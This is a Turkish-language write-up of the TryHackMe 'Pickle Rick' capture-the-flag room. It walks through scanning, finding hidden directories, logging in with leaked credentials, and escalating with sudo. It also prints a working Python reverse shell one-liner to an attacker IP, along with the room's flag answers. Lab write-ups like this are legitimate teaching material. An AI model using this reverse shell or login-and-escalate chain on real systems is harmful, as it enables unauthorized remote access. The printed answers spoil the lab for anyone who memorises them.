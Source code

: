 ## Giriş
Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/picklerick">Pickle Rick</a> makinesinin çözümünü paylaşacağım.


Bu Rick ve Morty temalı mücadele, bir web sunucusundan yararlanmanızı ve Rick'in iksirini yapmasına ve kendisini turşudan insana dönüştürmesine yardımcı olacak üç malzeme bulmanızı gerektirir.

## Görev 1 Pickle Rick
1.
```
Rick'in ihtiyacı olan ilk malzeme nedir?
```

Her zamanki gibi nmap taraması ile başlayalım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a1.png?raw=true)

80 portunda web sitesi çalıştığnı görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a2.png?raw=true)

Sayfanın kaynak koduna baktığımız zaman kullanıcı adını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a3.png?raw=true)

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a4.png?raw=true)

robots.txt login.php ve portal.php sayfalarını bulduk.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a5.png?raw=true)

robot.txt yi açtığımızda karşımıza çıkan sayfa. Şifre olabileceğini düşünerek login sayfasına giriş yapmayı deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a6.png?raw=true)

Giriş yapmayı başardım.
> R1ckRul3s:Wubbalubbadubdub

Komut çalıştırmayı deneyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a7.png?raw=true)
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a8.png?raw=true)

Bu dosyanın içeriği cat komutu ile kontrol edilmek istendiğinde komut engelleniyor

Konsola python reverse shell komutu yazmayı deniyorum. [Reverse Shell Generator](https://www.revshells.com/) kullanıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a9.png?raw=true)

> export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

netcat çalıştırmayı unutmayın.

> nc -nvlp 1234

Makineye girmeyi başardık.

Bu aşamadan sonra makinede araştırma yapmak kalıyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a10.png?raw=true)

>ls

>cat Sup3rS3cretPickl3Ingred.txt

İlk sorunun cevabına ulaşıyoruz.
> mr. meeseek hair

Devam edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a11.png?raw=true)

>ls 

> cat *

İkinci sorunun cevabına ulaştık.

>1 jerry tear

Son sorunun cevabı root dizininde. Root dizinine ulaşmak içinde root yetkisine sahip olmak gerekir. Bu sistemde yetki yükseltme komutları için hiçbir önlem alınmamış. O yüzden herhangi bir root yükseltme komutu ile yetki yükseltilebilir. Ben root yükseltmek için sudo bash komutunu kullandım




















